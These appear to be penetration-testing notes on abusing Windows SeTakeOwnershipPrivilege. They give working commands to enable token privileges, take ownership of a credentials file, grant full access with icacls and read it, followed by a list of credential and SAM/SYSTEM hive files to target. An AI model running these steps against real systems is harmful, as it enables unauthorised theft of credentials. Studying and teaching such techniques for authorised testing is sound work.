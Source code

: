 GPO abuse: https://github.com/FSecureLABS/SharpGPOAbuse

SeTakeOwnershipPrivilege allows the user to take control of a shared folder or sensitive files such as a document containing passwords or an ssh key

## Leveraging the Privilege
```
whoami /priv
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```
- https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1

**Choosing a Target File
Note: this is risky. Ask permission from client as this may break things. Always revert changes. Tell client if not possible to revert.

**Checking File Ownership
```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

**Taking Ownership of the File
```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

**Confirm Ownership Change
```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

**Modifying the File ACL
```
cat 'C:\Department Shares\Private\IT\cred.txt'
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
cat 'C:\Department Shares\Private\IT\cred.txt'
```

**Files of Interest
```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
